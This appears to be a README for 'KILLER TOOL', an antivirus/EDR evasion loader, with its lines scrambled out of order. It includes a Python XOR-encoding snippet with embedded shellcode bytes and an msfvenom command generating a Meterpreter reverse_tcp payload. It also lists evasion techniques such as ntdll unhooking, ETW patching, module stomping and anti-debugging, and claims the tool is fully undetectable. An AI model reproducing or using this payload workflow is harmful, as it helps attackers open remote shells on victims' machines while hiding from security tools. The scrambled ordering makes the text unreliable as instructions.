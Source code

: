 
 
      
            print(hex(i ^ key), end=', ')
        data = b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
        for i in data:
        key  = 0x50 # Put here your key as byte like for example (0x90 or 0x40 or 0x30) and more...
        print("0x0 };") # Notice that it adds one byte "0x0" to the end.
        print('{ ', end='')
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST<IP> LPORT<PORT> -f py
 Then copy the output into the encryptor XOR function :
![image](https://user-images.githubusercontent.com/82971998/230731975-a70abd1c-279b-4e79-9e91-6b5212b7db9a.png)
![image](https://user-images.githubusercontent.com/82971998/230732045-ca2638fe-4f3c-4926-8f94-4fff817ca585.png)
# Features:
# How to use it
# Important Notes
# KILLER TOOL (EDR Evasion)
# PoC (Proof-of-Concept) :
* Compile the code with visual studio compiler
* DLL Unhooking by fresh ntdll copy
* ETW Patchnig for bypassing some security controls
* First thanks to [Abdallah Mohammed](https://github.com/abdallah-elsharif) for helping me to develop it ^_^
* Fully obfuscated (Functions - Keys - Shellcode) by XOR-ing
* GetProcAddress & GetModuleHandle Implementation by @cocomelonc
* IAT Hiding and Obfuscation & API Unhooking
* Included sandbox evasion techniques & Basic Anti-Debugging
* Module Stomping for Memory scanning evasion
* Moving payload into hallowed memory without using APIs 
* Part 1 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-933e50f47af5
* Part 2 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-p2-7a947f7db354
* Part 3 => https://medium.com/@0xHossam/unhooking-memory-object-hiding-3229b75618f7
* Part 4 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-p-4-162662bb630e
* Runs without creating new thread & Suppoers x64 and x86 arch
* Shellcode reversed and Encrypted
* The tool is for educational purposes only
And then you can handle your decryption function, It's not easy for script kiddies ^-^, you can read more about it in my articale : 
Generate your shellcode with msfvenom tool :
It's a AV/EDR Evasion tool created to bypass security tools for learning, until now the tool is FUD.
This is the result when running :
https://antiscan.me/images/result/07OkIKKhpRsG.png
